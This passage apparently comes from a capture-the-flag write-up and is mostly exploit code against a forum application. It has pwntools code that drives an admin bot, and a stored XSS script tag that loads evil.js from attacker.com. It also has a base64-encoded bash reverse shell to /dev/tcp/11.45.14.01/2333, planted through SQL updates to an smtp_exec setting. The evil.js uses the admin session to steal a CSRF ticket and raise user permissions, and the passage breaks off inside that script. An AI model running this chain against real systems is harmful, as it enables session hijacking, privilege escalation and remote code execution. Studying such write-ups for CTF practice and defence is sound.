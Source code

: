 interactive with the admin bot

```python
def access_bot(path:str):
    from pwn import remote, context
    io = remote(ip, 9762)
    io.sendlineafter(b'Please give instance username: ', proxy_username.encode())
    io.sendlineafter(b'Please give instance password: ', proxy_password.encode())
    io.sendlineafter(b'Please give instance port: ', port.encode())
    io.recvuntil(b'Please give the path the admin should check. (should match ^.{0,100}$)\n')
    io.recvuntil(f'http://{host}/')
    io.sendline(path.encode())
    io.recvuntil(b'Done visiting')
    io.close()
```

Then exploite happily~

```python
username = 'test'
password = 'test123'

register(username, password)
login(username, password)
path = post_thread(f'<script src="//attacker.com/evil.js"></script>', 'a' * 0x100000)
access_bot(path.removeprefix('/'))
cmd = '/usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/11.45.14.01/2333 0>&1"'
payload = base64.b64encode(cmd.encode()).decode()
smtp_exec = f'/usr/bin/python3 -c __import__("os").popen(__import__("base64").b64decode(b"{payload}").decode());'
sql = f'''
update params set val=1 where id='email_confirm';
insert into params values('smtp_exec', '/readflag');
update params set val='{smtp_exec}' where id='smtp_exec';
'''
exec_sql(sql)
change_email(username, password)
```

The content of `evil.js`:

```javascript
const host = 'http://162.55.216.146:24366'
const proxy_username = 'hxp';
const proxy_password = 'hxp';
const username = 'test'

let is_admin = 1;
let user_perm = is_admin ? "$80000000" : "0"
let auth = btoa(proxy_username + ':' + proxy_password)

fetch(host + '/!userinfo/' + username, {
    credentials: 'include',
    headers: { 'Authorization': 'Basic ' + auth }
}).then(res => res.text())
.then(res => {
        let data = res;
        data = data.match('<input type="hidden" name="ticket" value="([0-9A-F]{32})">')[1];
        fetch(host + '/!userinfo/' + username, {
            method: 'POST',
            credentials: 'include',
            headers: { 'Authorization': 'Basic ' + auth },
            body: new URLSearchParams([
                ['user_desc', ''],
                ['user_perm', '1'],
                ['user_perm', '2'],
                ['user_perm', '4'],
```